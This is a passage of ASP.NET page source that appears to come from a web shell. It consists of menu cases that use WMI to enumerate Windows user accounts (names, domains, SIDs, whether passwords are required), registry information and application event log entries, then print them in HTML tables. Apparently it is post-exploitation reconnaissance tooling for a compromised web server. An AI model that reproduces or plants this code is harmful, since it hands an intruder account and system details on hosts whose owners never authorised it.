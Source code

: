 	<table align=center>
		<tr>
			<td>
			<% 
				dim WMI_function = "Win32_UserAccount"		
				dim Fields_to_load = "Name,Domain,FullName,Description,PasswordRequired,SID"
				dim fail_description = " Access to " + WMI_function + " is protected"
				Try
				output_wmi_function_data(WMI_function,Fields_to_load)
				Catch
				rw(fail_description)
				End Try
			%>
			</td>
		</tr>
	</table>
</form>
<%
	case "reg"
%>
<form runat="server">
	<p align=center>[ Registry ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
	<table align=center>
		<tr>
			<td>
			<% 
				dim WMI_function = "Win32_Registry"		
				dim Fields_to_load = "Caption,CurrentSize,Description,InstallDate,Name,Status"
				dim fail_description = " Access to " + WMI_function + " is protected"
				Try
				output_wmi_function_data(WMI_function,Fields_to_load)
				Catch
				rw(fail_description)
				End Try
			%>
			</td>
		</tr>
	</table>
</form>
<%
	case "applog"
%>
<form runat="server">
	<p align=center>[ List Application Event Log Entries ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
	<table align=center>
		<tr>
			<td>
			<% 
				dim WMI_function = "Win32_NTLogEvent where Logfile='Application'"		
				dim Fields_to_load = "Logfile,Message,type"
				dim fail_description = " Access to " + WMI_function + " is protected"
				Try
				output_wmi_function_data_instances(WMI_function,Fields_to_load,2000)
				Catch
				rw(fail_description)
				End Try
			%>
			</td>
		</tr>
	</table>
</form>
<%